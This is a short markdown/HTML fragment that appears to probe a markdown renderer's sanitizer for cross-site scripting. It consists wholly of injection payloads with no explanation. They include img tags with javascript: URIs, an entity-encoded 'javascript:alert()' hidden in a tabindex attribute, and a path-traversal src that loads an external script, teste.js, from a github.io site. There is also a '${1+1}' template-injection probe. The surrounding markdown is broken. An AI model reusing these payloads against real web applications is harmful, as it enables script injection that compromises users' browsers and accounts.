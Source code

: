 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="!javascript:document.getElementById('user-content-meu').src='123';">

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
